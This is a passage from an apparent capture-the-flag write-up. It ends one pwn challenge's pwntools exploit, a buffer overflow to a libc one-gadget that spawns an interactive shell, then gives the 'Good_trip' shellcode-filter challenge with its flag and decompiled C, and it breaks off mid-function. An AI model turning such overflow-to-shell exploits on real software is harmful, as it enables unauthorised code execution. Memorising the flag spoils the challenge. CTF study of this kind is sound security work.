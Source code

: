 ```py
info(f"Libc: {hex(libc.address)}")

ru(b">>")
sl(b'A')

ru(b">>")
sl(b'A' * 64 + p64(0x4040c0) + p64(libc.address + 0xef52b))

p.interactive()
```
---
## Good_trip
> shellcode + filter

flag: `AKASEC{y34h_You_C4N7_PRO73C7_5om37hIn9_YoU_doN7_h4V3}`

### Pseudo:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+4h] [rbp-Ch] BYREF
  void *buf; // [rsp+8h] [rbp-8h]

  v4 = 0;
  init(argc, argv, envp);
  buf = mmap((void *)0x1337131369LL, 0x1000uLL, 7, 34, -1, 0LL);
  printf("code size >> ");
  __isoc99_scanf("%d", &v4);
  if ( v4 >= 0x1001 )
    return 0;
  printf("code >> ");
  read(0, buf, 0x999uLL);
  mprotect(buf, (int)v4, 5);
  if ( (unsigned __int8)filter(buf) )
  {
    puts("nop, not happening.");
    exit(-1);
  }
  exec(buf);
  return 0;
}
```
```c
__int64 __fastcall filter(__int64 a1)
{
  void *s1[3]; // [rsp+10h] [rbp-20h]
  int v3; // [rsp+28h] [rbp-8h]
  int v4; // [rsp+2Ch] [rbp-4h]

  v4 = -1;
  s1[0] = &unk_402010;
  s1[1] = &unk_402013;
  s1[2] = &unk_402016;
  while ( ++v4 <= 4093 )
  {
    v3 = -1;
    while ( ++v3 <= 2 )
    {
      if ( !memcmp(s1[v3], (const void *)(v4 + a1), 2uLL) )
        return 1LL;
    }
  }
```